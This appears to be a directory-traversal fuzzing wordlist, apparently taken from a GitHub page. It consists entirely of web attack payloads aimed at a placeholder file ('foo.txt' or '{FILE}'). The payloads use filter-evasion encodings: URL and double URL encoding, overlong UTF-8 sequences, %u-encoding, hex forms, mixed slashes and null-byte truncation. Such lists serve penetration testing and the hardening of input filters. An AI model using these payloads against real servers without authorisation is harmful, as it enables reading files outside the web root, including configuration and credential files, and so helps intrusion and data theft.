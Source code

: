 ../../../foo.txt
../../../../../foo%00.txt
.\\..\\.\\..\\.\\..\\{FILE}
.\\..\\.\\..\\.\\..\\.\\..\\{FILE}
./\/././\/./{FILE}
./\/././\/././\/./{FILE}
..%2f..%2f..%2ffoo.txt
files/foo.txt/./.[N]/./.
%2e%2e/%2e%2e/%2e%2e/foo.txt
%2e%2e%2f%2e%2e%2f%2e%2e%2ffoo.txt
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2ffoo.txt
..%252f..%252f..%252ffoo.txt
%252e%252e/%252e%252e/%252e%252e/foo.txt
%252e%252e%252f%252e%252e%252f%252e%252e%252ffoo.txt
%c0%ae%c0%ae%c1%9c%c0%ae%c0%ae%c1%9c%c0%ae%c0%ae%c1%9c%c0%ae%c0%ae%c1%9c%c0%ae%c0%ae%c1%9c%c0%ae%c0%ae%c1%9cfoo.txt
%C0%AE%C0%AE%C0%AF%C0%AE%C0%AE%C0%AFetc%C0%AFfoo
..%uEFC8..%uEFC8..%uEFC8..%uEFC8..%uEFC8..%uEFC8foo.txt
\../\../\../\../\../\../foo.txt
%c0%2e%c0%2e%c0%5c%c0%2e%c0%2e%c0%5c%c0%2e%c0%2e%c0%5c%c0%2e%c0%2e%c0%5c%c0%2e%c0%2e%c0%5c%c0%2e%c0%2e%c0%5cfoo.txt
..%2f..%2f..%2f..%2f..%2f..%2ffoo.txt
%25c0%25ae%25c0%25ae\%25c0%25ae%25c0%25ae\%25c0%25ae%25c0%25ae\%25c0%25ae%25c0%25ae\%25c0%25ae%25c0%25ae\%25c0%25ae%25c0%25ae\foo.txt
..%c1%9c..%c1%9c..%c1%9c..%c1%9c..%c1%9c..%c1%9cfoo.txt
..%255c..%255c..%255c..%255c..%255cfoo.txt
..%5c..%5c..%5c..%5c..%5c..%5cfoo.txt
///%2e%2e%2f%2e%2e%2f%2e%2e%2f{FILE}
///%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f{FILE}
0x2e0x2e0x2f0x2e0x2e0x2f0x2e0x2e0x2f{FILE}
0x2e0x2e0x2f0x2e0x2e0x2f0x2e0x2e0x2f0x2e0x2e0x2f{FILE}
..%%35%63..%%35%63..%%35%63{FILE}
..%%35%63..%%35%63..%%35%63..%%35%63{FILE}